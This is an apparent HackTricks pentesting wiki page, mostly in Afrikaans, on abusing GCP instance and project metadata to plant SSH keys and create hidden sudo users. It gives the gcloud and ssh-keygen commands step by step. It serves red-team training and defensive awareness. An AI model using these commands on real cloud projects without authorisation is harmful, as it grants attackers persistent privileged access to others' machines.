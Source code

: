 # GCP - Voeg Aangepaste SSH Metadata Toe

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer de [**abonnementsplannen**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Wysiging van die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die wysiging van metadata op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

### **Insluiting van SSH-sleutels in Aangepaste Metadata**

Op GCP, voer **Linux-stelsels** dikwels skripte uit van die [Python Linux-gastomgewing vir Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [rekenaar-daëmon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld die instansiemetadata-eindpunt te kontroleer vir opdaterings aan die geautoriseerde SSH-openbare sleutels**.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daëmon 'n nuwe openbare sleutel laat vind, wat verwerk en **geïntegreer word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys`-lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo`-bevoegdhede** skep, afhangende van die sleutel se formaat. En die aanvaller sal die gasheer kan compromitteer.

### **Voeg SSH-sleutel by tot 'n bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH-sleutels op die Instansie:**
- Voer die bevel uit om die instansie en sy metadata te beskryf om bestaande SSH-sleutels te vind. Die relevante afdeling in die uitset sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.
```bash
gcloud compute instances describe [INSTANSIE] --zone [SONE]
```
- Let op die formaat van die SSH-sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n kolon.

2. **Berei 'n tekslêer voor vir SSH-sleutelmetadata:**
- Berg die besonderhede van gebruikersname en hul ooreenstemmende SSH-sleutels op in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwes bygevoeg word.

3. **Genereer 'n Nuwe SSH-sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
- Gebruik die `ssh-keygen`-bevel om 'n nuwe SSH-sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teikengebruikersnaam.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Voeg die nuwe openbare sleutel by in `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.

4. **Werk die Instansie se SSH-sleutelmetadata by:**
- Pas die opgedateerde SSH-sleutelmetadata toe op die instansie deur die `gcloud compute instances add-metadata`-bevel te gebruik.
```bash
gcloud compute instances add-metadata [INSTANSIE] --metadata-from-file ssh-keys=meta.txt
```

5. **Kry Toegang tot die Instansie met die Nuwe SSH-sleutel:**
- Verbind met die instansie met SSH deur die nuwe sleutel te gebruik, en kry toegang tot die skaal in die konteks van die teikengebruiker (`alice` in hierdie voorbeeld).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH-sleutel by**

As geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo`-bevoegdhede sal kry:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die reikwydte van SSH-toegang tot verskeie virtuele masjiene (VM's) in 'n wolk-omgewing te verbreed deur **SSH-sleutels op projekvlak toe te pas**. Hierdie benadering maak SSH-toegang moontlik tot enige instansie binne die projek wat nie projekwye SSH-sleutels uitdruklik geblokkeer het nie. Hier is 'n opgesomde gids:

1. **Pas SSH-sleutels op Projekvlak Toe:**
- Gebruik die `gcloud compute project-info add-metadata`-bevel om SSH-sleutels vanaf `meta.txt` by die metadata van die projek te voeg. Hierdie aksie verseker dat die SSH-sleutels erken word regoor alle VM's in die projek, tensy 'n VM die "Blokkeer projekwye SSH-sleutels" opsie geaktiveer het.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH na Instansies met Projekwye Sleutels:**
- Met projekwye SSH-sleutels op hul plek kan jy SSH na enige instansie binne die projek. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH-sleutel aanvaar en toegang verleen.
- 'n Direkte metode om SSH na 'n instansie te maak, is deur die `gcloud compute ssh [INSTANSIE]`-bevel te gebruik. Hierdie bevel gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak ingestel is om toegang te probeer verkry.

# Verwysings
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
